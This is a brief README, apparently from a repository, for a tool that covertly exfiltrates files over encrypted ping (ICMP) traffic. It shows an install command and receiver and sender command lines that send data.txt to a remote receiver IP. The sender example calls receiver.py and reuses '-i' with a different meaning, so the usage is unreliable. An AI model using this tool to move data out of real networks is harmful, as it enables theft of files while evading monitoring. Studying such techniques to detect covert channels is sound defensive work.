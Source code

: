 # PingTheFuckOut
Encrypted ping exfiltration tools

## Install
As usual:
`python3 -m pip install -r requirements.txt`

## Example
On the receiver:
`./receiver.py -p my_password -s 64 -o data_out.txt -i eth0`

On the sender:
`./receiver.py -p my_password -s 64 -i data.txt [receiver_ip]`

## Notes
Please note that this shouldn't be tested on localhost only, as sniffing on a loopback interface might get packets twice.